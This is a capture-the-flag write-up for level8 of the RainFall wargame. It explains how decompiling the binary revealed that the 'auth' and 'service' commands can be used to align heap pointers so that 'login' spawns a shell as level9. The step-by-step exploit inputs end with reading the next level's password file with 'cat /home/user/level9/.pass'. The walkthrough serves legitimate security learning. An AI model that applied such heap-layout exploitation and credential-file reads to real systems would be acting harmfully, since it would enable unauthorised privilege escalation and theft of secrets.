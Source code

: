 ### Download binary
``scp -P4242 level8@192.168.31.170:/home/user/level8/level8 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

We try to understand what is happening. We quickly find that the goal is to write in a precise memory space.
The whole program is in a loop that work like this : you see the adress of two pointer, then you can write a keyword.
By analyzing the source code we find 3 keywords that allow us to write to different memory space.

There is :
-auth : Increment the adress of the pointer inside the first space by 16, or set it to ``0x804a008`` if it's empty (Note that for it to work you need to put a space after the word auth).

-service : Increment the adress of the pointer inside the second space by 16, or set it to ``0x804a018`` if it's empty.

-login : If the first space is nil, segfault, else if the right condition is set launch a ``/bin/bash``, if not just print ``Password:``.

After many try and main annalysis we found that for login to give us /bin/bash the second pointer need to be 32 bit higher than the first.
For example if the first is ``0x804a008`` then the second need to be ``0x804a028``.

**hint : to compile source.c, don't forget the -m32 flag. Else, each malloc will be *2 greater in 64 bits !**

----

### Building the payload

We want to achieve the setup that we explain :
``0x804a008`` In the first and
``0x804a028`` in the second.

So :

**Launching the binnary**
``level8@RainFall:~$ ./level8``
>(nil), (nil)

**Setting the first memory space**
``auth ``
>0x804a008, (nil)

**Setting the second memory space**
``service``
>0x804a008, 0x804a018

**Incrementing the second memory space**
``service``
>0x804a008, 0x804a028

**Get our /bin/bash**
``login``
>$

``whoami``
>level9

----

#### Getting the flag

``$ cat /home/user/level9/.pass``
>c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
